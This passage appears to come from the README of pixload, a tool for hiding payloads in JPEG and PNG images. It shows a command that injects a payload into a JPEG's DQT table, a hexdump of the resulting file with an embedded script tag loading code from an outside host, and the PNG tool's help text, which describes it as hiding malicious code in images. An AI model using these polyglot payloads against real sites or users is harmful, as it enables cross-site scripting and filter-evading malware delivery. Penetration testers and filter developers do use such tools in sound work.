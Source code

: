 2. Inject payload into DQT table:

```sh
$ pixload-jpg -S dqt payload.jpg
```

```
........ JPEG Payload Creator/Injector ........
...............................................
... https://github.com/chinarulezzz/pixload ...
...............................................

[>] Generating output file
[✔] File saved to: payload.jpg

[>] Injecting payload into DQT table
[✔] Payload was injected succesfully

payload.jpg: JPEG image data, progressive, precision 8, 1x1, components 1

00000000  ff d8 ff db 00 43 00 01  01 01 01 01 01 01 01 01  |.....C..........|
00000010  01 01 01 01 01 01 01 01  01 01 01 01 01 01 01 01  |................|
00000020  01 01 01 01 3c 73 63 72  69 70 74 20 73 72 63 3d  |....<script src=|
00000030  2f 2f 65 78 61 6d 70 6c  65 2e 63 6f 6d 3e 3c 2f  |//example.com></|
00000040  73 63 72 69 70 74 3e ff  c2 00 0b 08 00 01 00 01  |script>.........|
00000050  01 01 11 00 ff c4 00 14  00 01 00 00 00 00 00 00  |................|
00000060  00 00 00 00 00 00 00 00  00 03 ff da 00 08 01 01  |................|
00000070  00 00 00 01 3f ff d9 01  01 11 00 ff c4 00 14 00  |....?...........|
00000080  01 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000090  03 ff da 00 08 01 01 00  00 00 01 3f ff d9        |...........?..|
0000009e
```

See [pixload-jpg(1)](https://github.com/chinarulezzz/pixload/blob/master/pixload-jpg.1.pod)
for more information.

### pixload-png

##### Help

```sh
$ pixload-png --help
```

```
Usage: pixload-png [OPTION]... FILE
Hide Payload/Malicious Code in PNG Images.

Mandatory arguments to long options are mandatory for short options too.
  -W, --pixelwidth  INTEGER   set pixel width for the new image (default: 32)
  -H, --pixelheight INTEGER   set pixel height for the new image (default: 32)
  -P, --payload STRING        set payload for injection
  -v, --version               print version and exit
  -h, --help                  print help and exit

If the output FILE already exists, then payload will be injected into this
existing file. Else, the new one will be created with specified pixels wide.
```
